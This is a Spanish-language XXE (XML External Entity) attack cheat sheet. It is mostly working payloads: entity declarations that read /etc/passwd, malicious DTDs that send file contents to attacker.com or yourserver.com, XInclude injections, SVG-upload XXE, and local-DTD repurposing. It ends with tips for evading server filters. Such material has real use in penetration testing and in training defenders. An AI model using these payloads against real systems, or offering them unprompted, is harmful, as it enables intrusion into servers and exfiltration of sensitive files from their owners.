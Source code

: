 ```yaml
---

### 💥 **XXE (XML External Entity) Attack Cheat Sheet** 💥

---
```

---

## **Tipos de Entidades en XML**

| Tipo                   | Descripción                                                                     |
| ---------------------- | ------------------------------------------------------------------------------- |
| Genéricas              | Representan cualquier tipo de información dentro del XML.                       |
| Externas (XXE)         | Referencian recursos externos, como archivos locales o URLs.                    |
| Predefinidas           | Entidades comunes usadas en XML (&lt;, &gt;, &amp;).                            |
| Entidades Paramétricas | Utilizan el símbolo `%` y se declaran en el **DTD (Document Type Definition)**. |
|                        |                                                                                 |

---

## **Ejemplo de Estructura XML**
```xml
<?xml version="1.0" encoding="UTF-8"?> 
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "mi entidad">]> 

<root>
    <name>fran</name>
    <tel>5454545as</tel>
    <email>fran@fran.com</email>
    <password>fran123</password>
</root>
```

---

## **Normal XXE (Local File Disclosure)**

### **Payloads:**
```xml
<!DOCTYPE foo [ <!ENTITY myFile SYSTEM "file:///etc/passwd"> ]>
<!DOCTYPE foo [ <!ENTITY myFile SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd"> ]>
```

---

## **Out Of Band XXE (OOB)**
- Estas inyecciones son ciegas (blind), donde el servidor realiza solicitudes HTTP hacia un servidor externo.

### **Payloads:**
```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://COLLABORATOR"> %xxe;]>  

<!DOCTYPE foo [ <!ENTITY myFile SYSTEM "http://192.168.64.128/testXXE"> ]>
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://192.168.64.128/malicious.dtd"> %xxe; ]>
```

---

### **Estrctura base**

```xml
Content-Type: application/xml;charset=UTF-8

<?xml version="1.0" encoding="UTF-8" standalone="no"?>
<root>
	<product>
		1
	</product>
</root>

```

## **Malicious DTD Files**

### **Malicious DTD 1 - Base64 Encoding:**
```xml
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % stack "<!ENTITY &#x25; exfil SYSTEM 'http://attacker.com/?file=%file;'>">
%stack;
%exfil;
```

### **Malicious DTD 2 - Direct File Read:** 
```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % stack "<!ENTITY exfil SYSTEM 'http://attacker.com/?file=%file;'>">
%stack;
```

### **Malicious DTD 3 - Error-Based XXE:**
```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % stack "<!ENTITY &#x25; error SYSTEM 'file://idontexist/%file;'>">
```

---

## **XInclude Injection**

### **Payloads:**
**XInclude Local File:**
```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
    <xi:include href="file:///etc/passwd" parse="text"/>
</foo>

<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>
```

**XInclude OOB:**
```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
    <xi:include href="http://yourserver.com/?data=file:///etc/passwd" parse="text"/>
</foo>
```

---

## **XXE via Image File Upload**

### **Normal XXE:**
```xml
<?xml version="1.0"?>
<!DOCTYPE svg [
    <!ENTITY file SYSTEM "file:///etc/hostname">
]>
<svg xmlns="http://www.w3.org/2000/svg" width="128px" height="128px">
    <text x="0" y="16" font-size="16">&file;</text>
</svg>
```

### **OOB XXE:**
```xml
<?xml version="1.0"?>
<!DOCTYPE svg [
    <!ENTITY % file SYSTEM "file:///etc/hostname">
    <!ENTITY % eval "<!ENTITY exfil SYSTEM 'https://yourserver.com/?data=%file;'>">
    %eval;
]>
<svg xmlns="http://www.w3.org/2000/svg" width="128px" height="128px">
    <image xlink:href="&exfil;" xmlns:xlink="http://www.w3.org/1999/xlink"/>
</svg>
```

---

## **XXE by Repurposing Local DTD**

### **Payload:**
```xml
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
<!ENTITY % ISOamsa '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; exfil SYSTEM &#x27;file:///noexisto/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;exfil;
'>
%local_dtd;
]>
```

---

## **Consejos Útiles:**
- **Siempre invoca el nombre de la entidad dentro del XML para ejecutar el payload.**  
- **Si el ataque falla, intenta eliminar el `%` o probar variantes de codificación.**  
- **Si el servidor bloquea ciertas entidades, intenta ofuscar los caracteres.**  

---
